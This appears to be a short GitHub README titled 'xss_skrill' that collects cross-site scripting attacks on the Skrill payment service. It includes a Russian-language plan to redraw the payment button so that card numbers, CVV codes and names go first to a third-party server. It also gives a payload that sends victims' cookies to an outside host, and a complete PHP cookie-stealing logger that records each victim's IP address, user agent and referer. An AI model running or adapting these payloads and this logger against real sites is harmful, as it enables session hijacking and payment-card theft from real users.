 xss_skrill
==========

*xss work: 9,10,11,12,13,14,15,16.10.2014*

**Demo:** http://atastycookie.me/skrill/


Write you example of XSS and we post it here :)

0) Был предложен вариант перерисовки новой кнопки отправки введенных данных сначала на сторонний сервер(карта, номер, cvv, фио и вся информация), а потом ттолько на SKRILL

1) `"><script>alert()</script>` 

2) `"><script language= "JavaScript">document.location="http://atastycookie.me/skrill/xss.php?cookie=" + document.cookie;document.location="http://atastycookie.me"</script>`

    <?php 
    
    function GetIP() 
    { 
    	if (getenv("HTTP_CLIENT_IP") && strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown")) 
    		$ip = getenv("HTTP_CLIENT_IP"); 
    	else if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown")) 
    		$ip = getenv("HTTP_X_FORWARDED_FOR"); 
    	else if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), "unknown")) 
    		$ip = getenv("REMOTE_ADDR"); 
    	else if (isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], "unknown")) 
    		$ip = $_SERVER['REMOTE_ADDR']; 
    	else 
    		$ip = "unknown"; 
    	return($ip); 
    } 
    
    function logData() 
    { 
    	$ipLog="log.txt"; 
    	$cookie = $_SERVER['QUERY_STRING']; 
    	$register_globals = (bool) ini_get('register_gobals'); 
    	if ($register_globals) $ip = getenv('REMOTE_ADDR'); 
    	else $ip = GetIP(); 
    
    	$rem_port = $_SERVER['REMOTE_PORT']; 
    	$user_agent = $_SERVER['HTTP_USER_AGENT']; 
    	$rqst_method = $_SERVER['METHOD']; 
    	$rem_host = $_SERVER['REMOTE_HOST']; 
    	$referer = $_SERVER['HTTP_REFERER']; 
    	$date=date ("l dS of F Y h:i:s A"); 
    	$log=fopen("$ipLog", "a+"); 
    
    	if (preg_match("/\bhtm\b/i", $ipLog) || preg_match("/\bhtml\b/i", $ipLog)) 
    		fputs($log, "IP: $ip | PORT: $rem_port | HOST: $rem_host | Agent: $user_agent | METHOD: $rqst_method | REF: $referer | DATE{ : } $date | COOKIE:  $cookie <br>"); 
    	else 
    		fputs($log, "IP: $ip | PORT: $rem_port | HOST: $rem_host |  Agent: $user_agent | METHOD: $rqst_method | REF: $referer |  DATE: $date | COOKIE:  $cookie \n\n"); 
    	fclose($log); 
    } 
    
    logData(); 
    
    ?>
